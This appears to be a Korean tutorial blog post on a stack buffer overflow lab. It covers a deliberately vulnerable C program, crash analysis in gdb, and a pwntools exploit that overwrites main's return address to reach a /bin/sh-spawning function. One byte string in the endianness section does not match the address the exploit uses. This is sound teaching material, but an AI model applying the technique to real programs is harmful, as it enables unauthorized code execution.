 ## 실습 코드

```c
// Name: rao.c
// Compile: gcc -o rao rao.c -fno-stack-protector -no-pie

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};
  execve(cmd, args, NULL);
}

int main() {
  char buf[0x28];
  
  init();
  printf("Input: ");
  scanf("%s", buf);
  
  return 0;
}
```

<br>
<br>

## 1. 분석

### 취약점 분석

main함수에서 `scanf("%s", buf)` 를 보면 입력 길이에 제한 없이 입력을 받고 있습니다. 그래서 오버플로우 공격이 가능합니다.

크기가 0x28 바이트인 버퍼에 입력을 받고 있기 때문에, 0x28 바이트 이상의 데이터를 입력하면 버퍼 오버플로우를 발생시켜서 main 함수의 반환 주소를 덮을 수 있습니다.

C++의 표준함수 중 취약한 함수에는 대표적으로 `strcpy, strcat, sprintf, scanf` 등이 있습니다.

<br>

### 트리거

발견한 취약점을 확인하는 행위

#

"A"를 5개 입력해보면

```bash
$ ./rao
Input: AAAAA
$
```

프로그램이 정상적으로 종료되었습니다.

#

이번에는 "A"를 64개 입력해보면

```bash
$ ./rao
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

전과 달리 `Segmentation fault` 라는 에러가 출력되며, 프로그램이 비정상적으로 종료되었습니다.

프로그램이 잘못된 주소에 접근했다는 의미이고 버그가 발생했다는 의미입니다.

추가적으로 `(core dumped)` 라는 메시지와 함께 코어 파일이 생성되었는데, 프로그램이 비정상적으로 종료되었을 때 디버깅을 돕기 위한 것입니다.

<br>

### 코어 파일 분석

gdb에는 코어 파일을 분석하는 기능이 있어서 입력이 스택에 어떻게 들어갔는지 확인할 수 있고 쉘을 획득하기 위한 계획을 세울 수 있습니다.

#

 gdb로 코어 파일을 열어보면

```bash
$ gdb -c core -q
[New LWP 52]
Core was generated by `./rao'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x0000000000400729 in ?? ()
```

프로그램의 종료 원인과 어떤 주소의 명령어를 실행하다가 문제가 발생했는지 보여줍니다.

<br>

```bash
gdb-peda$ x/10s $rsp
0x7ffe429d4968: "AAAAAAAA"
0x7ffe429d4971: ""
0x7ffe429d4972: ""
0x7ffe429d4973: ""
0x7ffe429d4974: ""
0x7ffe429d4975: ""
0x7ffe429d4976: ""
0x7ffe429d4977: ""
0x7ffe429d4978: "HJ\235B\376\177"
0x7ffe429d497f: ""
```

스택을 관찰해보면 입력값 중 일부인 AAAAAAAA가 rsp가 가리키는 곳에 저장되어 있습니다.


<br>
<br>

## 2. 익스플로잇

#

### 스택 프레임 구조 파악

스택 버퍼에 오버플로우를 발생시켜서 반환 주소를 덮으려면, 우선 해당 버퍼가 스택 프레임의 어디에 위치하는지 조사해야 합니다.

```bash
// main()
   0x000000000040070b <+35>:    lea    rax,[rbp-0x30]
   0x000000000040070f <+39>:    mov    rsi,rax
   0x0000000000400712 <+42>:    lea    rdi,[rip+0xab]        # 0x4007c4
   0x0000000000400719 <+49>:    mov    eax,0x0
   0x000000000040071e <+54>:    call   0x400570 <__isoc99_scanf@plt>
   0x0000000000400723 <+59>:    mov    eax,0x0
   
gdb-peda$ x/s 0x4007c4
0x4007c4:       "%s"
```

main의 어셈블리 코드에서 scanf 부분을 의사 코드로 표현해보면 `scanf("%s", rbp-0x30)` 가 됩니다.

#

스택 구조를 그려서 파악을 해보면

<img src="https://velog.velcdn.com/images/silvergun8291/post/d399c0be-c3da-45dd-8e1a-eeb45f5d97a7/image.png">


buf와 return address 사이에 0x38만큼 떨어져 있기 때문에, 0x38 만큼 쓰레기 값으로 채우고 실행하고자 하는 코드의 주소를 입력하면 실행 흐름을 조작할 수 있습니다.

<br>

### get_shell() 주소 확인

```c
void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};
  execve(cmd, args, NULL);
}
```

쉘을 실행시켜주는 `get_shell()` 함수가 있기 때문에, `main` 함수의 반환 주소를 `get_shell()` 함수의 주소로 덮으면 쉘을 획득할 수 있습니다.

#

gdb로 `get_shell()` 함수의 주소를 찾아보면

```bash
gdb-peda$ print get_shell
$1 = {<text variable, no debug info>} 0x4006aa <get_shell>
```

`0x4006aa` 가 `get_shell` 함수의 주소입니다.

<br>

### 페이로드 구성

시스템 해킹에서 페이로드는 공격을 위해 전달하는 데이터를 의미합니다.

익스플로잇을 위해 페이로드를 구성해보면

<img src="https://velog.velcdn.com/images/silvergun8291/post/bc69163f-e14b-4de7-a523-22d033225886/image.png">

<br>

### 엔디언 적용

페이로드는 적절한 엔디언을 적용해서 프로그램에 전달해야 합니다.
엔디언은 메모리에서 데이터가 정렬되는 방식으로 리틀 엔디언과 빅 엔디언이 사용됩니다.

MSB(Most Significant Byte) : 가장 왼쪽 바이트
리틀 엔디언: MSB가 가장 높은 주소에 저장됩니다.
빅 엔디언: MSB가 가장 낮은 주소에 저장됩니다.

`0x12345678`
리틀 엔디언 → 78 56 34 12
빅 엔디언 → 12 34 56 78

인텔 x86-64아키텍쳐는 리틀 엔디언을 사용하기 때문에, `get_shell` 함수의 주소는 `“\xa7\x05\x40\x00\x00\x00\x00\x00”`로 변환해서 전달해줘야 합니다.

<br>

### 익스플로잇

```python
from pwn import *

p = process('./rao')

payload = b"A"*0x30
payload += b"B"*0x8
payload += b"\xaa\x06\x40\x00\x00\x00\x00\x00"

p.recvuntil('Input: ')

p.sendline(payload)
p.interactive()
```

익스플로잇 코드를 짜서 공격을 해보면

#

```bash
$ python3 exploit.py
[+] Starting local process './rao': pid 629
[*] Switching to interactive mode
$
```

공격에 성공해서 쉘을 흭득하였습니다.

#

---

<br>

> [Exploit Tech: Return Address Overwrite
](https://dreamhack.io/lecture/courses/58)
